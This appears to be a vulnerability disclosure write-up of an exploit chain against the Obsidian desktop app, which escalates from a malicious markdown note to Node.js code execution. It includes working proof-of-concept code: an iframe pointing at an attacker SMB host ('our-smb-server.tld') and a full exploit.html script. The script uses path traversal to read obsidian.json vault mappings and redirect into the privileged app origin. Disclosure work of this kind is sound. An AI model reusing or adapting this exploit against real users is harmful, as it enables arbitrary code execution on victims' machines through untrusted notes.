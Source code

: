 For our case the ability to escape the local filesystem with `app://local/` URLs (and specifically `path.resolve`) is interesting.
Furthermore it is interesting, that the application puts the main application window in the `app://obsidian.md` origin.

The exploit chain for code execution looks as follows:  
A URL of the form `app://local/%5C%5Cour-smb-server.tld%5Cfolder%5Cexploit.html` will allow us to load files from an external SMB server or network share inside an iframe.  
In the previously loaded `exploit.html` from the server we create another iframe in order to read the local `obsidian.json` file containing all the vault mappings of Obsidian.
Since both our frames are in the `app://local/` origin we have access.  
With the knowledge of the local vaults we can now create a URL starting with `app://obsidian.md/` to load a secondary *local file* `payload.html` in our initial `iframe`, changing its origin.
This will put `payload.html` in the same origin as the main window of the Obsidian application.
Now we can escape the sandbox of the `iframe` and have access to the Node.js APIs which allow arbitrary code execution.


### Example proof of concept:

Three files need to be created and placed as instructed.
- `exploit.md`: Malicious markdown file opened in Obsidian.
- `exploit.html`: "Loader" file hosted on a remote server.
- `payload.html`: Actual payload that will be executed.

`exploit.md` local note file in a vault (that was copied from some untrusted origin for example):
```html
<iframe src="app://local/%5C%5Cour-smb-server.tld%5Cfolder%5Cexploit.html"></iframe>
```
The host `our-smb-server.tld` and path to the file need to be adapted to the actual location of the next file (`exploit.html`).
Note: At least one path segment (share name) in the URL is important here or the path resolution won't be correct.
This file just contains the initial `iframe`-element that triggers the exploit execution.
It abuses the vulnerability described above to escape the local file system path with `app://local/`-URLs.

`exploit.html` hosted on an SMB server (or network share):

```html
<html>
<head>
</head>
<body>
<script>
var ifr = document.createElement("iframe");
//ifr.src = "app://local/..%5C%5C..%5C%5C..%5C%5CRoaming%5C%5Cobsidian%5C%5Cobsidian.json"; // debug
ifr.src = "app://local/..%5C%5C..%5C%5CRoaming%5C%5Cobsidian%5C%5Cobsidian.json";
ifr.onload = () => {
	var vaultMappings = JSON.parse(ifr.contentDocument.body.innerText);
	console.log(vaultMappings);
	for (let i in vaultMappings.vaults) {
		if (vaultMappings.vaults[i].open) {
			let url = "app://obsidian.md/..%5C%5C..%5C%5C..%5C%5C..%5C%5C..%5C%5C.."+ vaultMappings.vaults[i].path.substr(2) +"\\payload.html";
			console.log("found: "+ url);
			window.location = url;
			break;
		}
	}
};
document.body.appendChild(ifr);
</script>
</body>
</html>
```